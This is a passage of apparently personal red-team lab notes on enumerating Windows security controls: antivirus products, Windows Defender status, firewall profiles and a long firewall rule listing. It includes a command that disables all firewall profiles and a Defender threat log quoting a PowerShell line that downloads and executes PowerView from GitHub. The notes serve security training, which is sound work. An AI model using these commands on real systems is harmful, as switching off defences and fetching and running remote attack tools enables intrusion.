pathToSignedReportingExe : C:\Program Files\Bitdefender\Bitdefender Security\bdservicehost.exe
productState             : 266240
timestamp                : Wed, 15 Dec 2021 12:40:10 GMT
PSComputerName           :

displayName              : Windows Defender
instanceGuid             : {D58FFC3A-813B-4fae-9E44-DA132C9FAA36}
pathToSignedProductExe   : windowsdefender://
pathToSignedReportingExe : %ProgramFiles%\Windows Defender\MsMpeng.exe
productState             : 393472
timestamp                : Fri, 15 Oct 2021 22:32:01 GMT
PSComputerName           :
```

As a result, there is a third-party antivirus (Bitdefender Antivirus) and Windows Defender installed on the computer. Note that Windows servers may not have SecurityCenter2 namespace, which may not work on the attached VM. Instead, it works for Windows workstations!


**Microsoft Windows Defender**

Microsoft Windows Defender is a pre-installed antivirus security tool that runs on endpoints. It uses various algorithms in the detection, including machine learning, big-data analysis, in-depth threat resistance research, and Microsoft cloud infrastructure in protection against malware and viruses. MS Defender works in three protection modes: Active, Passive, Disable modes. 

Active mode is used where the MS Defender runs as the primary antivirus software on the machine where provides protection and remediation. Passive mode is run when a 3rd party antivirus software is installed. Therefore, it works as secondary antivirus software where it scans files and detects threats but does not provide remediation. Finally, Disable mode is when the MS Defender is disabled or uninstalled from the system.

 We can use the following PowerShell command to check the service state of Windows Defender:

```
PS C:\Users\thm> Get-Service WinDefend

Status   Name               DisplayName
------   ----               -----------
Running  WinDefend          Windows Defender Antivirus Service

```
Next, we can start using the Get-MpComputerStatus cmdlet to get the current Windows Defender status. However, it provides the current status of security solution elements, including Anti-Spyware, Antivirus, LoavProtection, Real-time protection, etc. We can use select to specify what we need for as follows,
```
PS C:\Users\thm> Get-MpComputerStatus | select RealTimeProtectionEnabled

RealTimeProtectionEnabled
-------------------------
                    False
```


As a result, MpComputerStatus highlights whether Windows Defender is enabled or not.

**3. Host-based Firewall:**
It is a security tool installed and run on a host machine that can prevent and block attacker or red teamers' attack attempts. Thus, it is essential to enumerate and gather details about the firewall and its rules within the machine we have initial access to.  


The main purpose of the host-based firewall is to control the inbound and outbound traffic that goes through the device's interface. It protects the host from untrusted devices that are on the same network. A modern host-based firewall uses multiple levels of analyzing traffic, including packet analysis, while establishing the connection.

A firewall acts as control access at the network layer. It is capable of allowing and denying network packets. For example, a firewall can be configured to block ICMP packets sent through the ping command from other machines in the same network. Next-generation firewalls also can inspect other OSI layers, such as application layers. Therefore, it can detect and block SQL injection and other application-layer attacks.

```
PS C:\Users\thm> Get-NetFirewallProfile | Format-Table Name, Enabled

Name    Enabled
----    -------
Domain     True
Private    True
Public     True
```

If we have admin privileges on the current user we logged in with, then we try to disable one or more than one firewall profile using the Set-NetFirewallProfile cmdlet.

```
PS C:\Windows\system32> Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
PS C:\Windows\system32> Get-NetFirewallProfile | Format-Table Name, Enabled
---- -------
Domain False
Private False
Public False
```

We can also learn and check the current Firewall rules, whether allowing or denying by the firewall.

```
PS C:\Users\thm> Get-NetFirewallRule | select DisplayName, Enabled, Description

DisplayName                                                                  Enabled
-----------                                                                  -------
Virtual Machine Monitoring (DCOM-In)                                           False
Virtual Machine Monitoring (Echo Request - ICMPv4-In)                          False
Virtual Machine Monitoring (Echo Request - ICMPv6-In)                          False
Virtual Machine Monitoring (NB-Session-In)                                     False
Virtual Machine Monitoring (RPC)                                               False
SNMP Trap Service (UDP In)                                                     False
SNMP Trap Service (UDP In)                                                     False
Connected User Experiences and Telemetry                                        True
Delivery Optimization (TCP-In)                                                  True
```

During the red team engagement, we have no clue what the firewall blocks. However, we can take advantage of some PowerShell cmdlets such as Test-NetConnection and TcpClient. Assume we know that a firewall is in place, and we need to test inbound connection without extra tools, then we can do the following: 


```
PS C:\Users\thm> Test-NetConnection -ComputerName 127.0.0.1 -Port 80


ComputerName     : 127.0.0.1
RemoteAddress    : 127.0.0.1
RemotePort       : 80
InterfaceAlias   : Loopback Pseudo-Interface 1
SourceAddress    : 127.0.0.1
TcpTestSucceeded : True

PS C:\Users\thm> (New-Object System.Net.Sockets.TcpClient("127.0.0.1", "80")).Connected
True
```
As a result, we can confirm the inbound connection on port 80 is open and allowed in the firewall. Note that we can also test for remote targets in the same network or domain names by specifying in the -ComputerName argument for the Test-NetConnection. 


**TASKS**
commands
```
Get-NetFirewallProfile | Format-Table Name, Enabled
Get-MpThreat # can provide us with threats details that have been detected using MS Defender
Get-NetFirewallRule | select DisplayName, Enabled, Description # checked the firewall
Get-NetFirewallRule | select DisplayName, Enabled, Description | findstr "THM-Connection"
```

logs
```
PS C:\Users\kkidd> Get-NetFirewallProfile |Format-Table Name, Enabled

Name    Enabled
----    -------
Domain    False
Private   False
Public    False


PS C:\Users\kkidd> Get-MpThreat


CategoryID       : 8
DidThreatExecute : False
IsActive         : False
Resources        : {CmdLine:_C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object Net.WebClient).D
                   ownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1');
                   Get-NetGroupMember 'Domain Admins', internalCmdLine:_i AQAAAA2wA4AAAAAAAAAAAF8Q02fXQQEAbRa5PR40vlvAd
                   Uq6bbN3ro51dwpUcm9qYW46UG93ZXJTaGVsbC9Qb3dlcnNwbG9pdC5HAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                   AAAAA== 57 10 C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe powershell IEX (New-Object N
                   et.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Power
                   View.ps1'); Get-NetGroupMember 'Domain Admins'}
RollupStatus     : 1
SchemaVersion    : 1.0.0.0
SeverityID       : 5
ThreatID         : 2147725325
ThreatName       : Trojan:PowerShell/Powersploit.G
TypeID           : 0
PSComputerName   :

CategoryID       : 34
DidThreatExecute : False
IsActive         : False
Resources        : {file:_C:\Users\kkidd\Desktop\PowerView.ps1, containerfile:_C:\Users\kkidd\Desktop\PowerView.ps1,
                   file:_C:\Users\kkidd\Desktop\PowerView.ps1->(UTF-8)}
RollupStatus     : 1
SchemaVersion    : 1.0.0.0
SeverityID       : 4
ThreatID         : 2147755688
ThreatName       : HackTool:PowerShell/PowerView
TypeID           : 0
PSComputerName   :

CategoryID       : 34
DidThreatExecute : True
IsActive         : False
Resources        : {amsi:_C:\Tools\PowerView.ps1, internalamsi:_0296D712FA44FD733F95B0C00E4631FC}
RollupStatus     : 65
SchemaVersion    : 1.0.0.0
SeverityID       : 4
ThreatID         : 2147762887
ThreatName       : HackTool:PowerShell/InvKerber.B
TypeID           : 0
PSComputerName   :

```

FirewallRule
```
PS C:\Users\kkidd> Get-NetFirewallRule | select DisplayName, Enabled, Description

DisplayName                                                                  Enabled Description
-----------                                                                  ------- -----------
Virtual Machine Monitoring (DCOM-In)                                           False Allow DCOM traffic for remote W...
Virtual Machine Monitoring (Echo Request - ICMPv4-In)                          False Echo Request messages are sent ...
Virtual Machine Monitoring (Echo Request - ICMPv6-In)                          False Echo Request messages are sent ...
Virtual Machine Monitoring (NB-Session-In)                                     False Allow NetBIOS Session Service c...
Virtual Machine Monitoring (RPC)                                               False Allow Task Scheduler service to...
SNMP Trap Service (UDP In)                                                     False Inbound rule for the SNMP Trap ...
SNMP Trap Service (UDP In)                                                     False Inbound rule for the SNMP Trap ...
Connected User Experiences and Telemetry                                        True Unified Telemetry Client Outbou...
Delivery Optimization (TCP-In)                                                  True Inbound rule to allow Delivery ...
Delivery Optimization (UDP-In)                                                  True Inbound rule to allow Delivery ...
Remote Event Monitor (RPC)                                                     False Inbound rule for remote event m...
Remote Event Monitor (RPC-EPMAP)                                               False Inbound rule for the RPCSS serv...
Network Discovery (UPnP-In)                                                    False Inbound rule for Network Discov...
Network Discovery (UPnP-Out)                                                   False Outbound rule for Network Disco...
Network Discovery (NB-Name-In)                                                 False Inbound rule for Network Discov...
Network Discovery (NB-Name-Out)                                                False Outbound rule for Network Disco...
Network Discovery (NB-Datagram-In)                                             False Inbound rule for Network Discov...
Network Discovery (NB-Datagram-Out)                                            False Outbound rule for Network Disco...
Network Discovery (WSD EventsSecure-In)                                        False Inbound rule for Network Discov...
Network Discovery (WSD EventsSecure-Out)                                       False Outbound rule for Network Disco...
Network Discovery (WSD Events-In)                                              False Inbound rule for Network Discov...
Network Discovery (WSD Events-Out)                                             False Outbound rule for Network Disco...
Network Discovery (SSDP-In)                                                    False Inbound rule for Network Discov...
Network Discovery (SSDP-Out)                                                   False Outbound rule for Network Disco...
Network Discovery (UPnPHost-Out)                                               False Outbound rule for Network Disco...
Network Discovery (WSD-In)                                                     False Inbound rule for Network Discov...
Network Discovery (WSD-Out)                                                    False Outbound rule for Network Disco...
Network Discovery (LLMNR-UDP-In)                                               False Inbound rule for Network Discov...
Network Discovery (LLMNR-UDP-Out)                                              False Outbound rule for Network Disco...
Network Discovery (Pub-WSD-In)                                                 False Inbound rule for Network Discov...
Network Discovery (Pub WSD-Out)                                                False Outbound rule for Network Disco...
AllJoyn Router (TCP-In)                                                         True Inbound rule for AllJoyn Router...
AllJoyn Router (TCP-Out)                                                        True Outbound rule for AllJoyn Route...
AllJoyn Router (UDP-In)                                                         True Inbound rule for AllJoyn Router...
AllJoyn Router (UDP-Out)                                                        True Outbound rule for AllJoyn Route...
Netlogon Service (NP-In)                                                       False Inbound rule for the NetLogon s...
Netlogon Service Authz (RPC)                                                   False Inbound rule for the NetLogon s...
Inbound Rule for Remote Shutdown (TCP-In)                                      False Inbound rule for the Remote Shu...
Inbound Rule for Remote Shutdown (RPC-EP-In)                                   False Inbound rule for the RPCSS serv...
Secure Socket Tunneling Protocol (SSTP-In)                                     False Inbound rule to allow HTTPS tra...
File and Printer Sharing over SMBDirect (iWARP-In)                             False Inbound rule for File and Print...
DIAL protocol server (HTTP-In)                                                  True Inbound rule for DIAL protocol ...
DIAL protocol server (HTTP-In)                                                  True Inbound rule for DIAL protocol ...
Remote Scheduled Tasks Management (RPC)                                        False Inbound rule for the Task Sched...
Remote Scheduled Tasks Management (RPC-EPMAP)                                  False Inbound rule for the RPCSS serv...
Windows Device Management Enrollment Service (TCP out)                          True Allow outbound TCP traffic from...
Windows Remote Management (HTTP-In)                                             True Inbound rule for Windows Remote...
Windows Remote Management (HTTP-In)                                             True Inbound rule for Windows Remote...
Windows Remote Management - Compatibility Mode (HTTP-In)                       False Compatibility mode inbound rule...
BranchCache Content Retrieval (HTTP-In)                                        False Inbound rule for BranchCache to...
BranchCache Content Retrieval (HTTP-Out)                                       False Outbound rule for BranchCache t...
BranchCache Peer Discovery (WSD-In)                                            False Inbound rule for BranchCache to...
BranchCache Peer Discovery (WSD-Out)                                           False Outbound rule for BranchCache t...
BranchCache Hosted Cache Server (HTTP-In)                                      False Inbound rule for BranchCache to...
BranchCache Hosted Cache Server(HTTP-Out)                                      False Outbound rule for BranchCache t...
BranchCache Hosted Cache Client (HTTP-Out)                                     False Outbound rule for BranchCache t...
Remote Desktop - User Mode (TCP-In)                                             True Inbound rule for the Remote Des...
Remote Desktop - User Mode (UDP-In)                                             True Inbound rule for the Remote Des...
Remote Desktop - Shadow (TCP-In)                                                True Inbound rule for the Remote Des...
Remote Desktop - (TCP-WS-In)                                                   False Inbound rule for the Remote Des...
Remote Desktop - (TCP-WSS-In)                                                  False Inbound rule for the Remote Des...
Cast to Device streaming server (HTTP-Streaming-In)                             True Inbound rule for the Cast to De...
Cast to Device streaming server (HTTP-Streaming-In)                             True Inbound rule for the Cast to De...
Cast to Device streaming server (HTTP-Streaming-In)                             True Inbound rule for the Cast to De...
Cast to Device streaming server (RTCP-Streaming-In)                             True Inbound rule for the Cast to De...
Cast to Device streaming server (RTCP-Streaming-In)                             True Inbound rule for the Cast to De...
Cast to Device streaming server (RTCP-Streaming-In)                             True Inbound rule for the Cast to De...
Cast to Device streaming server (RTP-Streaming-Out)                             True Outbound rule for the Cast to D...
Cast to Device streaming server (RTP-Streaming-Out)                             True Outbound rule for the Cast to D...
Cast to Device streaming server (RTP-Streaming-Out)                             True Outbound rule for the Cast to D...
Cast to Device streaming server (RTSP-Streaming-In)                             True Inbound rule for the Cast to De...
Cast to Device streaming server (RTSP-Streaming-In)                             True Inbound rule for the Cast to De...
Cast to Device streaming server (RTSP-Streaming-In)                             True Inbound rule for the Cast to De...
Cast to Device SSDP Discovery (UDP-In)                                          True Inbound rule to allow discovery...
Cast to Device UPnP Events (TCP-In)                                             True Inbound rule to allow receiving...
Cast to Device functionality (qWave-UDP-In)                                     True Inbound rule for the Cast to De...
Cast to Device functionality (qWave-UDP-Out)                                    True Outbound rule for the Cast to D...
Cast to Device functionality (qWave-TCP-In)                                     True Inbound rule for the Cast to De...
Cast to Device functionality (qWave-TCP-Out)                                    True Outbound rule for the Cast to D...
Routing and Remote Access (GRE-In)                                             False Inbound rule for RRAS to allow ...
Routing and Remote Access (GRE-Out)                                            False Outbound rule for RRAS to allow...
Routing and Remote Access (L2TP-In)                                            False Inbound rule for RRAS to allow ...
Routing and Remote Access (L2TP-Out)                                           False Outbound rule for RRAS to allow...
Routing and Remote Access (PPTP-In)                                            False Inbound rule for RRAS to allow ...
Routing and Remote Access (PPTP-Out)                                           False Outbound rule for RRAS to allow...
Windows Device Management Certificate Installer (TCP out)                       True Allow outbound TCP traffic from...
Remote Volume Management - Virtual Disk Service (RPC)                          False Inbound rule for the Remote Vol...
Remote Volume Management - Virtual Disk Service Loader (RPC)                   False Inbound rule for the Remote Vol...
Remote Volume Management (RPC-EPMAP)                                           False Inbound rule for the RPCSS serv...
File and Printer Sharing (NB-Session-In)                                        True Inbound rule for File and Print...
File and Printer Sharing (NB-Session-Out)                                       True Outbound rule for File and Prin...
File and Printer Sharing (SMB-In)                                               True Inbound rule for File and Print...
File and Printer Sharing (SMB-Out)                                              True Outbound rule for File and Prin...
File and Printer Sharing (NB-Name-In)                                           True Inbound rule for File and Print...
File and Printer Sharing (NB-Name-Out)                                          True Outbound rule for File and Prin...
File and Printer Sharing (NB-Datagram-In)                                       True Inbound rule for File and Print...
File and Printer Sharing (NB-Datagram-Out)                                      True Outbound rule for File and Prin...
File and Printer Sharing (Spooler Service - RPC)                                True Inbound rule for File and Print...
File and Printer Sharing (Spooler Service - RPC-EPMAP)                          True Inbound rule for the RPCSS serv...
File and Printer Sharing (Echo Request - ICMPv4-In)                             True Echo Request messages are sent ...
File and Printer Sharing (Echo Request - ICMPv4-Out)                            True Echo Request messages are sent ...
File and Printer Sharing (Echo Request - ICMPv6-In)                             True Echo Request messages are sent ...
File and Printer Sharing (Echo Request - ICMPv6-Out)                            True Echo Request messages are sent ...
File and Printer Sharing (LLMNR-UDP-In)                                         True Inbound rule for File and Print...
File and Printer Sharing (LLMNR-UDP-Out)                                        True Outbound rule for File and Prin...
iSCSI Service (TCP-In)                                                         False Inbound rule for the iSCSI Serv...
iSCSI Service (TCP-Out)                                                        False Outbound rule for the iSCSI Ser...
Remote Event Log Management (RPC)                                              False Inbound rule for the local Even...
Remote Event Log Management (NP-In)                                            False Inbound rule for the local Even...
Remote Event Log Management (RPC-EPMAP)                                        False Inbound rule for the RPCSS serv...
Software Load Balancer Multiplexer (TCP-In)                                    False The Software Load Balancer Mult...
Key Management Service (TCP-In)                                                False Inbound rule for the Key Manage...
Windows Device Management Sync Client (TCP out)                                 True Allow outbound TCP traffic from...
Performance Logs and Alerts (TCP-In)                                           False Inbound rule for Performance Lo...
Performance Logs and Alerts (DCOM-In)                                          False Inbound rule for Performance Lo...
Performance Logs and Alerts (TCP-In)                                           False Inbound rule for Performance Lo...
Performance Logs and Alerts (DCOM-In)                                          False Inbound rule for Performance Lo...
TPM Virtual Smart Card Management (DCOM-In)                                    False Inbound rule for remote TPM Vir...
TPM Virtual Smart Card Management (TCP-In)                                     False Inbound rule for remote TPM Vir...
TPM Virtual Smart Card Management (TCP-Out)                                    False Outbound rule for remote TPM Vi...
TPM Virtual Smart Card Management (DCOM-In)                                    False Inbound rule for remote TPM Vir...
TPM Virtual Smart Card Management (TCP-In)                                     False Inbound rule for remote TPM Vir...
TPM Virtual Smart Card Management (TCP-Out)                                    False Outbound rule for remote TPM Vi...
Core Networking - Destination Unreachable (ICMPv6-In)                           True Destination Unreachable error m...
Core Networking - Packet Too Big (ICMPv6-In)                                    True Packet Too Big error messages a...
Core Networking - Packet Too Big (ICMPv6-Out)                                   True Packet Too Big error messages a...
Core Networking - Time Exceeded (ICMPv6-In)                                     True Time Exceeded error messages ar...
Core Networking - Time Exceeded (ICMPv6-Out)                                    True Time Exceeded error messages ar...
Core Networking - Parameter Problem (ICMPv6-In)                                 True Parameter Problem error message...
Core Networking - Parameter Problem (ICMPv6-Out)                                True Parameter Problem error message...
Core Networking - Neighbor Discovery Solicitation (ICMPv6-In)                   True Neighbor Discovery Solicitation...
Core Networking - Neighbor Discovery Solicitation (ICMPv6-Out)                  True Neighbor Discovery Solicitation...
Core Networking - Neighbor Discovery Advertisement (ICMPv6-In)                  True Neighbor Discovery Advertisemen...
Core Networking - Neighbor Discovery Advertisement (ICMPv6-Out)                 True Neighbor Discovery Advertisemen...
Core Networking - Router Advertisement (ICMPv6-In)                              True Router Advertisement messages a...
Core Networking - Router Advertisement (ICMPv6-Out)                             True Router Advertisement messages a...
Core Networking - Router Solicitation (ICMPv6-In)                               True Router Solicitation messages ar...
Core Networking - Router Solicitation (ICMPv6-Out)                              True Router Solicitation messages ar...
Core Networking - Multicast Listener Query (ICMPv6-In)                          True An IPv6 multicast-capable route...
Core Networking - Multicast Listener Query (ICMPv6-Out)                         True An IPv6 multicast-capable route...
Core Networking - Multicast Listener Report (ICMPv6-In)                         True The Multicast Listener Report m...
Core Networking - Multicast Listener Report (ICMPv6-Out)                        True The Multicast Listener Report m...
Core Networking - Multicast Listener Report v2 (ICMPv6-In)                      True Multicast Listener Report v2 me...
Core Networking - Multicast Listener Report v2 (ICMPv6-Out)                     True Multicast Listener Report v2 me...
Core Networking - Multicast Listener Done (ICMPv6-In)                           True Multicast Listener Done message...
Core Networking - Multicast Listener Done (ICMPv6-Out)                          True Multicast Listener Done message...
Core Networking - Destination Unreachable Fragmentation Needed (ICMPv4-In)      True Destination Unreachable Fragmen...
Core Networking - Internet Group Management Protocol (IGMP-In)                  True IGMP messages are sent and rece...
Core Networking - Internet Group Management Protocol (IGMP-Out)                 True IGMP messages are sent and rece...
Core Networking - Dynamic Host Configuration Protocol (DHCP-In)                 True Allows DHCP (Dynamic Host Confi...
Core Networking - Dynamic Host Configuration Protocol (DHCP-Out)                True Allows DHCP (Dynamic Host Confi...
Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-In)       True Allows DHCPV6 (Dynamic Host Con...
Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-Out)      True Allows DHCPV6 (Dynamic Host Con...
Core Networking - Teredo (UDP-In)                                               True Inbound UDP rule to allow Tered...
Core Networking - Teredo (UDP-Out)                                              True Outbound UDP rule to allow Tere...
Core Networking - IPHTTPS (TCP-In)                                              True Inbound TCP rule to allow IPHTT...
Core Networking - IPHTTPS (TCP-Out)                                             True Outbound TCP rule to allow IPHT...
Core Networking - IPv6 (IPv6-In)                                                True Inbound rule required to permit...
Core Networking - IPv6 (IPv6-Out)                                               True Outbound rule required to permi...
Core Networking - Group Policy (NP-Out)                                         True Core Networking - Group Policy ...
Core Networking - Group Policy (TCP-Out)                                        True Outbound rule to allow remote R...
Core Networking - DNS (UDP-Out)                                                 True Outbound rule to allow DNS requ...
Core Networking - Group Policy (LSASS-Out)                                      True Outbound rule to allow remote L...
COM+ Network Access (DCOM-In)                                                  False Inbound rule to allow DCOM traf...
COM+ Remote Administration (DCOM-In)                                           False Inbound rule to allow DCOM traf...
Distributed Transaction Coordinator (TCP-In)                                   False Inbound rule to allow traffic f...
Distributed Transaction Coordinator (TCP-Out)                                  False Outbound rule to allow traffic ...
Distributed Transaction Coordinator (RPC)                                      False Inbound rule for the Kernel Tra...
Distributed Transaction Coordinator (RPC-EPMAP)                                False Inbound rule for the RPCSS serv...
Remote Service Management (RPC)                                                False Inbound rule for the local Serv...
Remote Service Management (NP-In)                                              False Inbound rule for the local Serv...
Remote Service Management (RPC-EPMAP)                                          False Inbound rule for the RPCSS serv...
mDNS (UDP-In)                                                                   True Inbound rule for mDNS traffic [...
mDNS (UDP-In)                                                                   True Inbound rule for mDNS traffic [...
mDNS (UDP-In)                                                                   True Inbound rule for mDNS traffic [...
mDNS (UDP-Out)                                                                  True Outbound rule for mDNS traffic ...
mDNS (UDP-Out)                                                                  True Outbound rule for mDNS traffic ...
mDNS (UDP-Out)                                                                  True Outbound rule for mDNS traffic ...
Windows Defender Firewall Remote Management (RPC)                              False Inbound rule for the Windows De...
Windows Defender Firewall Remote Management (RPC-EPMAP)                        False Inbound rule for the RPCSS serv...
Windows Management Instrumentation (DCOM-In)                                    True Inbound rule to allow DCOM traf...
Windows Management Instrumentation (WMI-In)                                     True Inbound rule to allow WMI traff...
Windows Management Instrumentation (WMI-Out)                                    True Outbound rule to allow WMI traf...
Windows Management Instrumentation (ASync-In)                                   True Inbound rule to allow Asynchron...
Windows Media Player x86 (UDP-In)                                              False Inbound rule for Windows Media ...
Windows Media Player x86 (UDP-Out)                                             False Outbound rule for Windows Media...
Windows Media Player x86 (TCP-Out)                                             False Outbound rule for Windows Media...
Windows Media Player (UDP-In)                                                  False Inbound rule for Windows Media ...
Windows Media Player (UDP-Out)                                                 False Outbound rule for Windows Media...
Windows Media Player (TCP-Out)                                                 False Outbound rule for Windows Media...
Windows Media Player Network Sharing Service (qWave-UDP-In)                    False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (qWave-UDP-Out)                   False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (qWave-TCP-In)                    False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (qWave-TCP-Out)                   False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (HTTP-Streaming-In)               False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (HTTP-Streaming-Out)              False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (Streaming-UDP-In)                False Inbound rule for Windows Media ...
Windows Media Player Network Sharing Service (Streaming-UDP-Out)               False Outbound rule for Windows Media...
Windows Media Player Network Sharing Service (Streaming-TCP-Out)               False Outbound rule for Windows Media...
Windows Media Player Network Sharing Service (UDP-In)                          False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (UDP-Out)                         False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (TCP-In)                          False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (TCP-Out)                         False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (qWave-UDP-In)                    False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (qWave-UDP-Out)                   False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (qWave-TCP-In)                    False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (qWave-TCP-Out)                   False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (SSDP-In)                         False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (SSDP-Out)                        False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (UPnP-In)                         False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (UPnP-Out)                        False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (HTTP-Streaming-In)               False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (HTTP-Streaming-Out)              False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (Streaming-UDP-In)                False Inbound rule for Windows Media ...
Windows Media Player Network Sharing Service (Streaming-UDP-Out)               False Outbound rule for Windows Media...
Windows Media Player Network Sharing Service (Streaming-TCP-Out)               False Outbound rule for Windows Media...
Windows Media Player Network Sharing Service (UDP-In)                          False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (UDP-Out)                         False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (TCP-In)                          False Inbound rule for the Windows Me...
Windows Media Player Network Sharing Service (TCP-Out)                         False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (UPnPHost-Out)                    False Outbound rule for the Windows M...
Windows Media Player Network Sharing Service (HTTP-Streaming-In)               False Inbound rule for the Windows Me...
Remote Desktop - User Mode (TCP-In)                                             True Inbound rule for the Remote Des...
Remote Desktop - User Mode (UDP-In)                                             True Inbound rule for the Remote Des...
Remote Desktop - Shadow (TCP-In)                                                True Inbound rule for the Remote Des...
Work or school account                                                          True Work or school account
Work or school account                                                          True Work or school account
Your account                                                                    True Your account
Your account                                                                    True Your account
Windows Shell Experience                                                        True Windows Shell Experience
Cortana                                                                         True Search the web and Windows
Cortana                                                                         True Search the web and Windows
Windows Security                                                                True Windows Security
Windows Shell Experience                                                        True Windows Shell Experience
Narrator QuickStart                                                             True Narrator QuickStart
Windows Defender SmartScreen                                                    True Windows Defender SmartScreen
Desktop App Web Viewer                                                          True Desktop App Web Viewer
Desktop App Web Viewer                                                          True Desktop App Web Viewer
Windows Default Lock Screen                                                     True Windows Default Lock Screen
Email and accounts                                                              True Email and accounts
Shell Input Application                                                         True Shell Input Application
Captive Portal Flow                                                             True Captive Portal Flow
Kerberos Key Distribution Center (TCP-In)                                       True Inbound rule for the Kerberos K...
Kerberos Key Distribution Center (UDP-In)                                       True Inbound rule for the Kerberos K...
Kerberos Key Distribution Center - PCR (TCP-In)                                 True Inbound rule for the Kerberos K...
Kerberos Key Distribution Center - PCR (UDP-In)                                 True Inbound rule for the Kerberos K...
RPC Endpoint Mapper (TCP, Incoming)                                             True Inbound rule for the RPCSS serv...
DNS (TCP, Incoming)                                                             True Inbound rule to allow remote TC...
DNS (UDP, Incoming)                                                             True Inbound rule to allow remote UD...
RPC (TCP, Incoming)                                                             True Inbound rule to allow remote RP...
All Outgoing (TCP)                                                              True Outbound rule to allow all TCP ...
All Outgoing (UDP)                                                              True Outbound rule to allow all UDP ...
World Wide Web Services (HTTP Traffic-In)                                       True An inbound rule to allow HTTP t...
World Wide Web Services (HTTPS Traffic-In)                                      True An inbound rule to allow HTTPS ...
FTP Server (FTP Traffic-In)                                                     True An inbound rule to allow FTP tr...
FTP Server (FTP Traffic-Out)                                                    True An outbound rule to allow FTP t...
FTP Server Secure (FTP SSL Traffic-In)                                          True An inbound rule to allow FTP ov...
FTP Server Secure (FTP SSL Traffic-Out)                                         True An outbound rule to allow FTP o...
FTP Server Passive (FTP Passive Traffic-In)                                     True An inbound rule to allow Passiv...
DFS Management (TCP-In)                                                         True Inbound rule for DFS Management...
DFS Management (DCOM-In)                                                        True Inbound rule for DFS Management...
DFS Management (WMI-In)                                                         True Inbound rule for DFS Management...
DFS Management (SMB-In)                                                         True Inbound rule for DFS Management...
Microsoft Key Distribution Service                                              True Microsoft Key Distribution Service
Microsoft Key Distribution Service                                              True Microsoft Key Distribution Service
DFS Replication (RPC-In)                                                        True Inbound rule to allow DFS Repli...
DFS Replication (RPC-EPMAP)                                                     True Inbound rule for the RPCSS serv...
Active Directory Domain Controller (RPC)                                        True Inbound rule to allow remote RP...
Active Directory Domain Controller (RPC-EPMAP)                                  True Inbound rule for the RPCSS serv...
Active Directory Domain Controller - LDAP (TCP-In)                              True Inbound rule for the Active Dir...
Active Directory Domain Controller - LDAP (UDP-In)                              True Inbound rule for the Active Dir...
Active Directory Domain Controller - Secure LDAP (TCP-In)                       True Inbound rule for the Active Dir...
Active Directory Domain Controller - LDAP for Global Catalog (TCP-In)           True Inbound rule for the Active Dir...
Active Directory Domain Controller - Secure LDAP for Global Catalog (TCP-In)    True Inbound rule for the Active Dir...
Active Directory Domain Controller (TCP-Out)                                    True Outbound rule for the Active Di...
Active Directory Domain Controller (UDP-Out)                                    True Outbound rule for the Active Di...
Active Directory Domain Controller - SAM/LSA (NP-UDP-In)                        True Inbound rule for the Active Dir...
Active Directory Domain Controller - SAM/LSA (NP-TCP-In)                        True Inbound rule for the Active Dir...
Active Directory Domain Controller - NetBIOS name resolution (UDP-In)           True Inbound rule for the Active Dir...
Active Directory Domain Controller - W32Time (NTP-UDP-In)                       True Inbound rule for the Active Dir...
Active Directory Domain Controller -  Echo Request (ICMPv4-In)                  True Inbound rule for the Active Dir...
Active Directory Domain Controller -  Echo Request (ICMPv4-Out)                 True Outbound rule for the Active Di...
Active Directory Domain Controller -  Echo Request (ICMPv6-In)                  True Inbound rule for the Active Dir...
Active Directory Domain Controller -  Echo Request (ICMPv6-Out)                 True Outbound rule for the Active Di...
File Replication (RPC)                                                          True Inbound rule to allow File Repl...
File Replication (RPC-EPMAP)                                                    True Inbound rule for the RPCSS serv...
Active Directory Web Services (TCP-In)                                          True Inbound rule for the Active Dir...
Active Directory Web Services (TCP-Out)                                         True Outbound rule for the Active Di...
File Server Remote Management (WMI-In)                                          True Inbound rule to allow WMI traff...
File Server Remote Management (DCOM-In)                                         True Inbound rule to allow DCOM traf...
File Server Remote Management (SMB-In)                                          True Inbound rule to allow SMB traff...
Work or school account                                                          True Work or school account
Work or school account                                                          True Work or school account
Your account                                                                    True Your account
Your account                                                                    True Your account
Windows Shell Experience                                                        True Windows Shell Experience
Cortana                                                                         True Search the web and Windows
Cortana                                                                         True Search the web and Windows
Windows Security                                                                True Windows Security
Windows Shell Experience                                                        True Windows Shell Experience
Narrator QuickStart                                                             True Narrator QuickStart
Windows Defender SmartScreen                                                    True Windows Defender SmartScreen
Desktop App Web Viewer                                                          True Desktop App Web Viewer
Desktop App Web Viewer                                                          True Desktop App Web Viewer
Windows Default Lock Screen                                                     True Windows Default Lock Screen
Email and accounts                                                              True Email and accounts
Shell Input Application                                                         True Shell Input Application
Captive Portal Flow                                                             True Captive Portal Flow
Hyper-V - WMI (DCOM-In)                                                         True Inbound rule for Hyper-V to all...
